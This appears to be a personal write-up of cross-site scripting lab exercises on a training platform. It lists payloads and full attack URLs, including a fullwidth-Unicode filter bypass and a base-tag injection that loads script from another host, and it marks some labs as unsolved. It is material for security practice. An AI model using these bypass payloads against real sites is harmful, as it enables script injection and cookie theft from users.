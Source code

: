 ### Lab 1072: The Unfinished Script
- **URL Lab**: https://xssy.uk/lab/1072
- **Payload**: 
```
what<svg\u003E<script\u003E
```
- **Full URL**: 
```
https://dl5kmrls.xssy.uk/target.ftl?name=what%3Csvg\u003E%3Cscript\u003E
```
- **Status**: I have no clue

---

## Adept Level

### Lab 5: Unicode XSS [Using Full-width Character]
- **URL Lab**: https://xssy.uk/lab/5
- **Reference**: https://en.wikipedia.org/wiki/Halfwidth_and_Fullwidth_Forms_(Unicode_block)#Block
- **Payload**: 
```html
＜img src=x onerror=alert(document.cookie)＞
```
- **Full URL**: 
```
https://4t64ubva.xssy.uk/target.ftl?name=%EF%BC%9Cimg%20src=x%20onerror=alert(document.cookie)%EF%BC%9E
```
- **Description**: Browser will normalize fullwidth character to normal character & we using it to bypass filter/sanitation

---

### Lab 167: Base Tag XSS
- **URL Lab**: https://xssy.uk/lab/167
- **Payload**: Host `app.js` in server as relative path from base, inside `app.js` code:
```javascript
alert(document.cookie)
```
- **Full URL**: 
```
https://xboa2upw.xssy.uk/target.ftl?base=https://eqh42jmm.xssy.uk/app.js&name=dimana
```
- **Description**: Inject myserver.com/app.js to the base parameter. When browser load source from our server it will trigger XSS

---

### Lab 627: Upload Restriction Bypass
- **URL Lab**: https://xssy.uk/lab/627
- **Status**: Not solved yet
- **Description**: Tried change filename, modified filetype, content-type but nothing worked

---